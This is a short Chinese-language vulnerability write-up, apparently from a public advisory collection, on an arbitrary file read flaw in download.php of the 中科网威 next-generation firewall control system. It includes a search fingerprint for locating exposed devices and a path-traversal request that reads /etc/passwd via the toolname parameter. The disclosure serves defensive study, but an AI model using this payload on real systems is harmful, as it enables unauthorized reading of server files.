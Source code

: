 # 中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞

## 漏洞描述

中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞, 攻击者通过漏洞可以读取服务器上的文件

## 漏洞影响

<a-checkbox checked>中科网威 下一代防火墙控制系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="Get_Verify_Info(hex_md5(user_string)."</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/image-20210531184103009.png)



漏洞存在于 download.php

![img](../../../.vuepress/public/img/image-20210602161941678.png)



任意点击后抓包，更改 **toolname** 参数

```plain
/download.php?&class=vpn&toolname=../../../../../../../../etc/passwd
```



![img](../../../.vuepress/public/img/image-20210602162110747.png)



## 

